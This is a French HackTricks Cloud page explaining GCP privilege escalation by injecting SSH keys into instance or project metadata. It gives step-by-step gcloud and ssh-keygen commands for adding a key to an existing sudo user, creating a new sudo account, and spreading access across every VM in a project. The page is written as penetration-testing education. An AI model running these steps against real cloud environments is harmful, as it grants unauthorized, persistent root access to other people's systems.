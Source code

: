# GCP - Ajouter des métadonnées SSH personnalisées

## GCP - Ajouter des métadonnées SSH personnalisées

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

### Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modification des métadonnées sur une instance pourrait entraîner **des risques de sécurité significatifs si un attaquant obtient les autorisations nécessaires**.

#### **Incorporation de clés SSH dans les métadonnées personnalisées**

Sur GCP, **les systèmes Linux** exécutent souvent des scripts à partir de l'[Environnement Invité Linux Python pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un composant critique de cela est le [démon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui est conçu pour **vérifier régulièrement** le point de terminaison des métadonnées de l'instance pour **des mises à jour des clés publiques SSH autorisées**.

Par conséquent, si un attaquant peut modifier les métadonnées personnalisées, il pourrait faire en sorte que le démon trouve une nouvelle clé publique, qui sera traitée et **intégrée dans le système local**. La clé sera ajoutée au fichier `~/.ssh/authorized_keys` d'un **utilisateur existant ou potentiellement en créant un nouvel utilisateur avec des privilèges `sudo`**, selon le format de la clé. Et l'attaquant pourra compromettre l'hôte.

#### **Ajouter une clé SSH à un utilisateur privilégié existant**

1. **Examiner les clés SSH existantes sur l'instance :**
*   Exécutez la commande pour décrire l'instance et ses métadonnées afin de localiser les clés SSH existantes. La section pertinente dans la sortie sera sous `metadata`, spécifiquement la clé `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Faites attention au format des clés SSH : le nom d'utilisateur précède la clé, séparé par un deux-points.
2. **Préparer un fichier texte pour les métadonnées de la clé SSH :**
* Enregistrez les détails des noms d'utilisateur et de leurs clés SSH correspondantes dans un fichier texte nommé `meta.txt`. Cela est essentiel pour préserver les clés existantes tout en ajoutant de nouvelles.
3. **Générer une nouvelle clé SSH pour l'utilisateur cible (`alice` dans cet exemple) :**
*   Utilisez la commande `ssh-keygen` pour générer une nouvelle clé SSH, en veillant à ce que le champ de commentaire (`-C`) corresponde au nom d'utilisateur cible.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Ajoutez la nouvelle clé publique à `meta.txt`, en imitant le format trouvé dans les métadonnées de l'instance.
4. **Mettre à jour les métadonnées de la clé SSH de l'instance :**
*   Appliquez les métadonnées de clé SSH mises à jour à l'instance en utilisant la commande `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Accéder à l'instance en utilisant la nouvelle clé SSH :**
*   Connectez-vous à l'instance avec SSH en utilisant la nouvelle clé, accédant au shell dans le contexte de l'utilisateur cible (`alice` dans cet exemple).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Si aucun utilisateur intéressant n'est trouvé, il est possible d'en créer un nouveau qui se verra attribuer des privilèges `sudo` :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

Il est possible d'élargir l'accès SSH à plusieurs machines virtuelles (VM) dans un environnement cloud en **appliquant des clés SSH au niveau du projet**. Cette approche permet l'accès SSH à toute instance au sein du projet qui n'a pas explicitement bloqué les clés SSH à l'échelle du projet. Voici un guide résumé :

1. **Appliquer des clés SSH au niveau du projet :**
*   Utilisez la commande `gcloud compute project-info add-metadata` pour ajouter des clés SSH depuis `meta.txt` aux métadonnées du projet. Cette action garantit que les clés SSH sont reconnues sur toutes les VM du projet, sauf si une VM a l'option "Bloquer les clés SSH à l'échelle du projet" activée.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH dans les instances en utilisant des clés à l'échelle du projet :**
* Avec des clés SSH à l'échelle du projet en place, vous pouvez SSH dans n'importe quelle instance au sein du projet. Les instances qui ne bloquent pas les clés à l'échelle du projet accepteront la clé SSH, accordant l'accès.
* Une méthode directe pour SSH dans une instance est d'utiliser la commande `gcloud compute ssh [INSTANCE]`. Cette commande utilise votre nom d'utilisateur actuel et les clés SSH définies au niveau du projet pour tenter d'accéder.

## Références

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
